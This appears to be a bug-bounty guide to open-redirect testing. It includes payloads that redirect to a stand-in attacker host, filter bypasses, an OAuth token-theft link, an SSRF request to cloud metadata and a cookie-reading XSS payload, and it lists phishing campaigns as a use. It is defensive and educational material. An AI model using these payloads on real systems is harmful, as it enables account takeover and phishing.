

# Open Redirect & Chaining Attacks

## When to Use
- When encountering URL parameters designed for navigation: `?next=`, `?returnUrl=`, `?redirect_to=`, `?url=`.
- When testing login portals, logout forms, or multi-step checkout processes that redirect users upon completion.
- When an OAuth integration restricts `redirect_uri` to the target domain, but an Open Redirect exists on that domain to steal the tokens.
- To facilitate highly credible phishing campaigns leveraging a trusted corporate domain.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Identifying the Open Redirect

```text
# Concept: Ascertain if changing the target URL forces a 301/302 HTTP response
# to an attacker-controlled site.

# 1. Probing obvious parameters
https://target.com/login?next=https://attacker.com

# 2. Check the HTTP Response
HTTP/1.1 302 Found
Location: https://attacker.com
# Vulnerability Confirmed!
```

### Phase 2: Bypassing Filters & Validation

```text
# Concept: Developers often attempt to validate URLs (e.g., ensuring they start 
# with the valid domain or a `/`). We must creatively bypass these checks.

# 1. Bypassing "Must start with target.com" validations
https://target.com/login?next=https://target.com.attacker.com     # Attacker creates a clever subdomain
https://target.com/login?next=https://attacker.com/target.com     # Placing target name in path
https://target.com/login?next=https://target.com@attacker.com     # Using basic auth structure

# 2. Double URL Encoding & Whitespace
https://target.com/login?next=%0d%0a//attacker.com                # CRLF Injection bypass
https://target.com/login?next=\/\/attacker.com                    # Backslash bypass
https://target.com/login?next=//attacker.com                      # Protocol relative URL (browsers evaluate to http/https)

# 3. Trailing Slashes & Browser Normalization
https://target.com/login?next=https://attacker.com%2F%2E%2E%2F    # Browser evaluates encoding differently than backend
```

### Phase 3: Exploitation and Impact Escalation (Crucial for Bug Bounty)

```text
# Note: Many bug bounty programs mark basic Open Redirects as "Out of Scope" or "Low" priority
# because the impact is "only" phishing. You MUST chain it!

# Escalation 1: OAuth Token Theft (High/Critical Impact)
# Scenario: Target uses Google OAuth. The `redirect_uri` MUST strictly match `https://target.com/callback`.
# Attacker leverages the Open Redirect on target.com.
https://accounts.google.com/o/oauth2/auth?client_id=target_id&redirect_uri=https://target.com/callback?next=https://attacker.com&response_type=token

# Result: Google trusts target.com, sends the token to target.com. Target.com executes the Open Redirect, 
# forwarding the OAuth Token via the Referer header or URL fragment to attacker.com. Session taken!

# Escalation 2: Bypassing SSRF Defenses (High/Critical Impact)
# Scenario: An API fetches data from user-supplied URLs, but blocks `http://169.254.169.254` (AWS Metadata).
# Attacker provides the Open Redirect URL instead:
POST /api/fetch HTTP/1.1
{"url": "https://target.com/redirect?to=http://169.254.169.254/latest/meta-data/"}
# Result: The strict SSRF filter allows `https://target.com`, but the HTTP client follows the 302 redirect directly into the metadata service, bypassing the filter.

# Escalation 3: Cross-Site Scripting (XSS) (Medium Impact)
# Scenario: The redirect is handled via JavaScript `window.location = params.url` instead of HTTP 302.
https://target.com/redirect?to=javascript:alert(document.cookie)
```

#### Decision Point 🔀



## 🔵 Blue Team Detection & Defense
- **Strict Whitelist**: Maintain a hardcoded map of acceptable redirect destinations and pass the index, not the URL.
  - SECURE: `?redirect_to=1` (maps to `/dashboard`)
- **Relative URL Enforcement**: Validate that redirect URLs begin with a single `/` and do not begin with `//` or `http`, ensuring they restrict users exclusively to the current domain.
- **Confirmation Page**: If redirecting external is necessary, enforce an interstitial "You are leaving Target.com, click here to continue" page. This completely nullifies OAuth token stealing and automated SSRF chaining.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Open Redirect | An input validation flaw where untrusted data specifies the target of a web redirect |
| Exploit Chaining | The process of combining multiple low-severity vulnerabilities to achieve a high-severity impact |
| OAuth Token Theft | Exploiting an open redirect on an authorized Client Domain to steal tokens from the Authorization Provider |

## Output Format
```
Bug Bounty Report: Account Takeover via OAuth & Open Redirect Chain
===================================================================
Vulnerability: Open Redirect escalated to OAuth Token Theft (Account Takeover)
Severity: High (CVSS 8.1)
Target: GET /login/redirect?url=

Description:
A classic Open Redirect exists at `/login/redirect?url=`. While normally a low-severity phishing vector, this vulnerability can be chained with the application's GitHub OAuth flow. The OAuth configuration correctly restricts callbacks to `https://target.com/`, but by embedding the Open Redirect into the OAuth callback flow, an attacker can steal the OAuth authorization code.

Reproduction Steps:
1. Send the victim the following crafted Microsoft OAuth link:
   `https://github.com/login/oauth/authorize?client_id=TARGET_ID&redirect_uri=https://target.com/login/redirect?url=https://attacker.com/log`
2. The user authorizes the application on GitHub.
3. GitHub sends the code to: `https://target.com/login/redirect?url=https://attacker.com/log&code=xyz123`
4. Target.com executes the open redirect.
5. The victim's browser sends the `code` within the HTTP Referer header to `attacker.com/log`.
6. The attacker uses the stolen `code` to authorize their own session.

Impact:
Full Account Takeover (ATO) for any user leveraging GitHub Single Sign-On.
```


## 📚 Shared Resources
> For cross-cutting methodology applicable to all vulnerability classes, see:
> - [`_shared/references/elite-chaining-strategy.md`](../_shared/references/elite-chaining-strategy.md) — Exploit chaining methodology and high-payout chain patterns
> - [`_shared/references/elite-report-writing.md`](../_shared/references/elite-report-writing.md) — HackerOne-optimized report writing, CWE quick reference
> - [`_shared/references/real-world-bounties.md`](../_shared/references/real-world-bounties.md) — Verified disclosed bounties by vulnerability class

## References
- OWASP: [Unvalidated Redirects and Forwards](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/04-Testing_for_Client-side_URL_Redirect)
- PortSwigger: [Open routing vulnerabilities](https://portswigger.net/web-security/ssrf/knowledge-base#open-redirection)
- PayloadsAllTheThings: [Open Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)
